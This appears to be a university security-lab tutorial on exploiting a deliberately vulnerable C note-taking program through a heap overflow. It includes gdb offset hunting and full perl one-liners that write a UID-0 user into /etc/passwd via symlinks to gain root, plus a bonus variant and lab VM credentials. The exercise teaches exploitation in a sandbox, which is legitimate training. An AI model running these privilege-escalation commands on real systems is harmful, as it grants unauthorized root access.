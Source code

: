 Tutorial:  Heap overflow exploit - Abusing the file system
===========================================================

Introduction
------------

Download the Kali VM from this link (Same than NFS - Metasploitable)

.. centered:: https://transvol.sgsi.ucl.ac.be/download.php?id=cdb293424a0498c7

| Working directory: ``~/SecurityClass/Tutorial-Extra``
| Connection:

============ ============
**username** **password**
============ ============
admin        nimda
============ ============

.. warning:: **Before you start this exercise I STRONGLY suggest that you backup
             any important file on your VM ‼️**

.. code:: console

   $ cp /etc/passwd /tmp/passwd.bkup


In this exercise, we will see how we can exploit the heap to create a
new user with root access.

The program we will be exploiting is a simple note taker that will write
the user input into a file located at ``/var/notes``. This simple piece
of code is poorly written and is vulnerable to a heap-based overflow.

We can try this program with some simple input like :

.. code:: console

   $ ./note_taker "Some boring text"
   [DEBUG] buffer @ 0x804d1a0: 'Some boring text'
   [DEBUG] datafile @ 0x804d210: '/var/notes'
   Note has been saved.
   $ sudo cat /var/notes

   Some boring text
   $

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_1">
          <div class="panel panel-primary">
        <div class="panel-body">


We can try this program with some simple input like :

.. code:: console

   $ ./note_taker "Some boring text"
   [DEBUG] buffer @ 0x804d1a0: 'Some boring text'
   [DEBUG] datafile @ 0x804d210: '/var/notes'
   Note has been saved. 
   $ sudo cat /var/notes

   Some boring text
   $

However if we try with a longer input, let's say of size 120, we get the
following output :

.. code:: console

   $ ./note_taker $(perl -e 'print "A"x120')
   [DEBUG] buffer @ 0x804d1a0: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
   [DEBUG] datafile @ 0x804d210: 'AAAAAAAA'
   Note has been saved. 
   double free or corruption (out)
   Aborted
   $ ls
   AAAAAAAA  note_taker  note_taker.c  README.md
   $ sudo cat AAAAAAAA 

   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   $

| We can see that the datafile variable has been overwritten and that the program has effectively created the note in the current folder under the file `AAAAAAAA`.
| Let's now see how we can exploit this.

.. raw:: html

   </div>
   </div>
   </div>

Exercise
--------

Finding vulnerable code
~~~~~~~~~~~~~~~~~~~~~~~
❓ **Can you spot which line of code is vulnerable to a heap-based overflow
?**

.. hint::  **💡 Don't forget how the memory is based and the difference
          between the stack and the heap.**


.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_2">
          <div class="panel panel-primary">
        <div class="panel-body">

We have seen that we created a new file but how useful is that? There
are a few files that are useful to gain more privileges. For examples
let's say we grant privileges to users via the ``/etc/sudoers`` file or
even that we add a new user with root privileges to the ``/etc/passwd``
file. In this case we will do the later one.

We can see that the vulnerability happens on the line **strcpy(buffer,
argv[1]);**. Without checking the length of the argument, we can
overflow the first buffer and write on the second buffer *datafile*.

.. code:: C

   int main(int argc, char* argv[]){
     int userid, fd; // File descriptor
     char * buffer, *datafile;
     
     buffer = (char *) malloc(100);
     if (buffer == NULL)
       return -1;

     datafile = (char *) malloc(20);
     if (datafile == NULL)
       return -1;
     strcpy(datafile, "/var/notes");
     
     if (argc < 2){
       printf("Usage : ./note-taker \'Some very interesting message\'\n");
       return-1;
     }
     strcpy(buffer, argv[1]);

.. raw:: html

   </div>
   </div>
   </div>

Locate the heap in memory
~~~~~~~~~~~~~~~~~~~~~~~~~

It is often usefull to take a look at the heap's memory to debug. In
this case we want to see where in memory the *datafile* and *buffer*
variables are located. (We assume that we don't print any DEBUG
information)

❓ **Using** ``gdb``  **can you find a way to locate the address of the heap?**

.. hint:: **💡 You can put a breakpoint somewhere in the program and see the
          state of the registers as well as other usefull information regarding
          the stack and the heap. Once you find the heap you can take a look at
          its content easily.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_3">
          <div class="panel panel-primary">
        <div class="panel-body">

We can use gdb to locate the heap and the two buffers. First we need to
find a place to put a breakpoint. Line 26 is a perfect place

.. code:: console

   $ gdb -q note_taker
   (gdb) list main,26
   8   int main(int argc, char* argv[]){
   9     int userid, fd; // File descriptor
   10    char * buffer, *datafile;
   11    
   12    buffer = (char *) malloc(100);
   13    if (buffer == NULL)
   14      return -1;
   15  
   16    datafile = (char *) malloc(20);
   17    if (datafile == NULL)
   18      return -1;
   19    strcpy(datafile, "/var/notes");
   20    
   21    if (argc < 2){
   22      printf("Usage : ./note-taker \'Some very interesting message\'\n");
   23      return-1;
   24    }
   25    strcpy(buffer, argv[1]);
   26
   (gdb) b 26
   Breakpoint 1 at 0x8049294: file note_taker.c, line 27.
   $

We can now run the program with a recognizable input like *AAAA* and
examine memory.

.. code:: console

   (gdb) run AAAA
   [...]
   (gdb) info proc map
   process 7668
   Mapped address spaces:

       Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x804b000     0x3000        0x0 /home/kali/Documents/Security/LINGI2144-2020-2022/heap-exploit/file_writer/note_taker
        0x804b000  0x804c000     0x1000     0x2000 /home/kali/Documents/Security/LINGI2144-2020-2022/heap-exploit/file_writer/note_taker
        0x804c000  0x804d000     0x1000     0x3000 /home/kali/Documents/Security/LINGI2144-2020-2022/heap-exploit/file_writer/note_taker
        0x804d000  0x806f000    0x22000        0x0 [heap]
       0xb7dd7000 0xb7fb5000   0x1de000        0x0 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb5000 0xb7fb7000     0x2000   0x1dd000 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb7000 0xb7fb9000     0x2000   0x1df000 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb9000 0xb7fbb000     0x2000        0x0 
       0xb7fd0000 0xb7fd2000     0x2000        0x0 
       0xb7fd2000 0xb7fd5000     0x3000        0x0 [vvar]
       0xb7fd5000 0xb7fd6000     0x1000        0x0 [vdso]
       0xb7fd6000 0xb7ffe000    0x28000        0x0 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xb7ffe000 0xb7fff000     0x1000    0x27000 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xb7fff000 0xb8000000     0x1000    0x28000 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xbffdf000 0xc0000000    0x21000        0x0 [stack]

We find that the heap is located at the address **0x804d000**. We can
then take a look at its memory.

.. code:: console

   (gdb) x/120x 0x804d000
   [...]
   0x804d190:  0x00000000  0x00000000  0x00000000  0x00000071
   0x804d1a0:  0x41414141  0x00000000  0x00000000  0x00000000
   0x804d1b0:  0x00000000  0x00000000  0x00000000  0x00000000

.. raw:: html

   </div>
   </div>
   </div>


Locate the two buffers
~~~~~~~~~~~~~~~~~~~~~~

**Using** ``gdb`` **can you locate the address of the two buffers?**

.. hint:: **💡 You may want to use some distinguishable input
          ("AAAABBBBCCCC", "ABCDEFGH", ...) that you can spot easily while looking
          at the memory.**

Once you have found the two buffers in memory you can calculate the
length needed to overflow the buffer into the datafile.

❓ **Using** ``gdb``  **find the number of bytes needed to overflow the second
buffer.**

.. warning:: **When using** ``gdb`` **to compute values using addresses, it
             might sometime display the result in hexadecimal value.**

.. code:: console

   (gdb) p 0xdeadbeef - 0xdeadbeaf
   $1 = 0x40
   (gdb) p/d 0xdeadbeef - 0xdeadbeaf
   $2 = 64

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_4">
          <div class="panel panel-primary">
        <div class="panel-body">

We have found that our buffer variable is located at address
**0x804d1a0** and if we continue a bit further we find the datafile
variable located at address **0x804d210**.

.. code:: console

   (gdb)
   0x804d200:  0x00000000  0x00000000  0x00000000  0x00000021
   0x804d210:  0x7261762f  0x746f6e2f  0x00007365  0x00000000
   0x804d220:  0x00000000  0x00000000  0x00000000  0x00021dd9

We can then calculate the offset between the two locations :

.. code:: console

   (gdb) p/d 0x804d210 - 0x804d1a0
   $1 = 112

.. raw:: html

   </div>
   </div>
   </div>


Predicting the file name
~~~~~~~~~~~~~~~~~~~~~~~~

Now that you now how much bytes you need for the padding you should be
able to write to a file of your choice.

❓ **Try writing to the file** ``/var/test``.

.. hint:: **💡 You can use perl or python to generate long strings.**

You can look at the result using ``sudo cat /var/test``

❓ **Now try to fit a non-rubish sentence in this file.**

.. hint:: **💡 *You might need to change the padding depending on your sentence length.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_5">
          <div class="panel panel-primary">
        <div class="panel-body">

Since in the last try we printed 120 characters and the last 8 bytes
were overflowing the datafile variable, we can assume that we need to
fill 112 bytes before our file name.

.. code:: console

   $ ./note_taker $(perl -e 'print "A"x112 . "/var/test"')
   [DEBUG] buffer @ 0x804d1a0: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/var/test'
   [DEBUG] datafile @ 0x804d210: '/var/test'
   Note has been saved. 
   double free or corruption (out)
   Aborted
   $

As expected the correct filename is displayed.

.. raw:: html

   </div>
   </div>
   </div>

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_0_0 tp1_0_1 tp1_0_2 tp1_0_3 tp1_0_4 tp1_0_5",".tp1_s0","predicting-the-file-name");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>

Gaining root access
-------------------

In this section we will see how to gain root privileges by creating a
new user in the ``/etc/passwd`` file.

.. warning:: **To prevent you from breaking your VM we will first try
             the exploit on the file** ``/var/passwd`` **first.**

.. code:: console

   $ cp /etc/passwd /tmp/passwd.bkup
   $


Create a new user
~~~~~~~~~~~~~~~~~

Let's examine what the ``/etc/passwd`` file looks like :

.. code:: console

   $ head /etc/passwd
   root:x:0:0:root:/root:/bin/bash
   daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
   bin:x:2:2:bin:/bin:/usr/sbin/nologin
   sys:x:3:3:sys:/dev:/usr/sbin/nologin
   sync:x:4:65534:sync:/bin:/bin/sync
   games:x:5:60:games:/usr/games:/usr/sbin/nologin
   man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
   lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
   mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
   news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
   $

The format is described here `/etc/passwd file format<https://www.ibm.com/support/knowledgecenter/en/ssw_aix_71/security/passwords_etc_passwd_file.html>`_

The important informations here are the user ID number (UID) and the
login shell. Any entry in this file that has a user ID of 0 has root
privileges so that's what we are aiming for. We can also define our own
password but first we need to encrypt it.


❓ **Find by yourself what is the format of this file. What information do
you think can be usefull to gain root privileges?**

❓ **Write down (on paper or anywhere else) what you would need to write to
create a new user with root privileges that spawn a shell upon login.**

.. hint:: **💡 The** ``x`` **field means that the password are stored in the**
          ``/etc/shadow`` **file. We can however put an encrypted password. With
          perl you can generate a encrypted password with the following command.**

.. code:: console

   $ perl -e 'print crypt("password", "AA") . "\n"' # "AA" is the salt value, don't worry about it too much
   AA6tQYSfGxd/A
   $

Your string should look like something like this :

::

   hackerman:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash"

❓ **At this point the string does not end with the correct sequence has it
would write to** ``/bin/bash`` **instead of** ``/etc/passwd``. We can however
use a clever bypass by using symbolic file link. We can create any file
ending with ``/etc/passwd`` (eg: ``/var/etc/passwd``,
``/tmp/etc/passwd``) and link it to ``/bin/bash``.

.. code:: console

   $ mkdir /tmp/var
   $ ln -s /bin/bash /tmp/var/passwd
   $ ls -l /tmp/var/passwd
   lrwxrwxrwx 1 kali kali 9 Jul 21 11:29 /tmp/var/passwd -> /bin/bash
   $

.. note:: **When testing your exploit on** ``/etc/passwd`` **you just need to
          replace every occurrences of** ``/var/passwd`` **by** ``/etc/passwd``.

.. code:: console

   $ mkdir /tmp/etc
   $ ln -s /bin/bash /tmp/etc/passwd
   $ ls -l /tmp/etc/passwd
   lrwxrwxrwx 1 kali kali 9 Jul 21 11:29 /tmp/etc/passwd -> /bin/bash
   $

Our string now looks like this :

::

   hackerman:AA6tQYSfGxd/A:0:0:me:/root:/tmp/etc/passwd"

We just need to add some padding bytes so that the string from the
beginning till */tmp* has the length you computed previously.

❓ **What field do you think we can use as padding ?**

.. hint:: **💡 You can use perl or python to generate a string and check
          what length it has by using the following piped command**

.. code:: console

   $ perl -e 'print "something"' | wc -c
   9
   $

Once you think you padded your string correctly you can try the exploit
on the ``/var/passwd`` file.

❓ **Can you append the correct user entry to the** ``/var/passwd`` **file?**

If everything works fine you can try it on the ``/etc/passwd`` file.
(Remember to create the correct symbolic link as explained previously)

.. note:: **The program will most likely exit in a dirty fashion like**
          ``Aborted`` **. Don't worry about it too much.**

❓ **Can you log in your new user account ? What privileges do you have ?**

.. raw:: html

   <div class="collapse tp1_s2" id="tp1_2_1">
          <div class="panel panel-primary">
        <div class="panel-body">


We can now fill the *full user name (GECOS)* field for padding so we can
adjust our buffer correctly.

.. code:: console

   $ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:me:/root:/tmp"' | wc -c
   41
   $ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
   89
   $ gdb -q
   (gdb) p/d 112 - 89 + 50
   $1 = 73
   (gdb) quit
   $ perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:"."A"x73 .":/root:/tmp"' | wc -c
   112

We have successfully padded the buffer so now we just need to add the
file at the end of the string and it shoudl work perfectly.

.. code:: console

   ./note_taker $(perl -e 'print "hackerman:AA6tQYSfGxd/A:0:0:"."A"x73 .":/root:/tmp/etc/passwd"')
   [DEBUG] buffer @ 0x804d1a0: 'hackerman:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
   [DEBUG] datafile @ 0x804d210: '/etc/passwd'
   Note has been saved. 
   munmap_chunk(): invalid pointer
   Aborted
   $ tail /etc/passwd

   hackerman:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
   $ su hackerman
   Password : #password
   root@kali:/home/kali# whoami
   root
   root@kali:/home/kali#

And just like so we got a brand new root access !

.. raw:: html

   </div>
   </div>
   </div>

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_2_1",".tp1_s2","create-a-new-user");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>


BONUS
-----

One thing that could go wrong is that the buffer holding the datafile
variable (in this case ``/var/notes``) is not long enough to fit an
interesting file name.

❓ **Can you think of how to bypass this issue?**

.. hint:: **💡 You might need the natural logarithm...**

.. raw:: html

   <div class="collapse tp1_s1" id="tp1_1_0">
          <div class="panel panel-primary">
        <div class="panel-body">

If the buffer for the datafile is not large enough, we may not be able
to fit the full ``/etc/passwd`` string length. However we can use the
same trick as for spawning a bash : symbolic file link.

.. code:: console

   $ ln -s /etc/passwd passwd

We now have to change the padding so that only the last part of the file
(``passwd``) overflow the datafile buffer.

.. code:: console

   ./note_taker $(perl -e 'print "hackermon:AA6tQYSfGxd/A:0:0:"."A"x68 .":/root:/tmp/etc/passwd"')
   [DEBUG] buffer @ 0x804d1a0: 'hackermon:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
   [DEBUG] datafile @ 0x804d210: 'passwd'
   Note has been saved. 
   Segmentation fault

The datafile correctly outputs ``passwd`` and if we try to change user :

.. code:: console

   su hackermon
   Password : #password
   root@kali:/home/kali# whoami
   root
   root@kali:/home/kali#

.. raw:: html

   </div>
   </div>
   </div>

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_1_0",".tp1_s1","bonus");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>